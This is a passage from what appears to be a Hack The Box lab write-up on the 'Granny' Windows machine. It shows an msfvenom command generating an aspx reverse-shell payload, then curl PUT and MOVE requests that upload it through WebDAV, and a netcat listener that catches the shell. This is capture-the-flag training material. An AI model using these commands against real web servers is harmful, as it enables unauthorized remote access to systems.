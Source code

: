 This time we can upload arbitrary files to the web server.

![](/assets/img/htb/machines/windows/easy/granny/PUT_mimiron.png)

___

## Exploitation

`gobuster` revealed a folder called `/aspnet_client`

Let's try to upload an **aspx reverse shell**:

{% highlight bash %}
$ msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=$(vpnip) LPORT=1234 -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2695 bytes
Saved as: shell.aspx
$ mv shell.aspx shell.txt
$ curl -X PUT http://10.10.10.15/shell.txt --data-binary @shell.txt
$ curl -X MOVE --header 'Destination:http://10.10.10.15/shell.aspx' 'http://10.10.10.15/shell.txt'
{% endhighlight %}

Run a listener using `netcat`, `curl` the uploaded file and we have a shell:

![](/assets/img/htb/machines/windows/easy/granny/shell.png)

## Privesc (without Metasploit)

### `systeminfo`
